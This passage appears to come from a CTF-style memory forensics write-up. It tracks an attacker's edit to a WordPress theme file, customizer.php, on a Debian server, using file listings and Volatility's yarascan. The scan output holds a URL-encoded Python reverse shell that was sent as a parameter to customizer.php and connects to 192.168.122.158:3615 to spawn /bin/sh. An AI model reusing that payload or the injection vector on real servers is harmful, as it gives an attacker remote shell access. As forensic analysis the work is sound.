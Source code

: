 At the very first view, nothing really awful over there. But Monique edited a PHP web page: `customizer.php`. We can hypothesize that the evil hacker injects arbitrary PHP code in this page in order to get access on the Debian server. 

Unfortunately, Monique removed her arbitrary code before leaving, so no proof... Even in the memory dump, there doesn't seem to be much:

```bash
$ cat pfile_list| grep "rock-band"     
----------------                0x0 /bin/bin/var/www/html/wp-content/languages/themes/rock-band-fr_FR.mo
          532630 0xffff979692ed5948 /bin/bin/var/www/html/wp-content/themes/rock-band
          532646 0xffff979692ef9a88 /bin/bin/var/www/html/wp-content/themes/rock-band/functions.php
          532639 0xffff979692ef41a8 /bin/bin/var/www/html/wp-content/themes/rock-band/inc
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/customizer.php~
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/ensibssecretproject
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/ens
          532643 0xffff979692ef5a48 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/override-parent.php
          532640 0xffff979692ef45d8 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/metabox
          532641 0xffff979692ef4a08 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/metabox/metabox.php
          532631 0xffff979692ed50e8 /bin/bin/var/www/html/wp-content/themes/rock-band/languages
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/languages/fr_FR.mo
```

I can still see this:

* customizer.php~
* ensibssecretproject

The first file is follow by the `~` suffix, probably for temporary files. If we would manage to recover this file, we probably could get the arbitrary code.

The second one, is an ENSIBS project of Odie, finding this file in this place is quite surprising.

Let's look for `customizer.php` string in memory, with the yarascan plugin from Volatility and see where it appears:

```bash
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_yarascan -Y "customizer.php"
[...]
Task: apache2 pid 21733 rule r1 addr 0x7f0733fb39b7
0x7f0733fb39b7  63 75 73 74 6f 6d 69 7a 65 72 2e 70 68 70 3f 78   customizer.php?x
0x7f0733fb39c7  3d 70 79 74 68 6f 6e 25 32 30 2d 63 25 32 30 25   =python%20-c%20%
0x7f0733fb39d7  32 37 69 6d 70 6f 72 74 25 32 30 73 6f 63 6b 65   27import%20socke
0x7f0733fb39e7  74 2c 73 75 62 70 72 6f 63 65 73 73 2c 6f 73 3b   t,subprocess,os;
0x7f0733fb39f7  73 3d 73 6f 63 6b 65 74 2e 73 6f 63 6b 65 74 28   s=socket.socket(
0x7f0733fb3a07  73 6f 63 6b 65 74 2e 41 46 5f 49 4e 45 54 2c 73   socket.AF_INET,s
0x7f0733fb3a17  6f 63 6b 65 74 2e 53 4f 43 4b 5f 53 54 52 45 41   ocket.SOCK_STREA
0x7f0733fb3a27  4d 29 3b 73 2e 63 6f 6e 6e 65 63 74 28 28 25 32   M);s.connect((%2
0x7f0733fb3a37  32 31 39 32 2e 31 36 38 2e 31 32 32 2e 31 35 38   2192.168.122.158
0x7f0733fb3a47  25 32 32 2c 33 36 31 35 29 29 3b 6f 73 2e 64 75   %22,3615));os.du
0x7f0733fb3a57  70 32 28 73 2e 66 69 6c 65 6e 6f 28 29 2c 30 29   p2(s.fileno(),0)
0x7f0733fb3a67  3b 25 32 30 6f 73 2e 64 75 70 32 28 73 2e 66 69   ;%20os.dup2(s.fi
0x7f0733fb3a77  6c 65 6e 6f 28 29 2c 31 29 3b 25 32 30 6f 73 2e   leno(),1);%20os.
0x7f0733fb3a87  64 75 70 32 28 73 2e 66 69 6c 65 6e 6f 28 29 2c   dup2(s.fileno(),
0x7f0733fb3a97  32 29 3b 70 3d 73 75 62 70 72 6f 63 65 73 73 2e   2);p=subprocess.
0x7f0733fb3aa7  63 61 6c 6c 28 5b 25 32 32 2f 62 69 6e 2f 73 68   call([%22/bin/sh
[...]
```
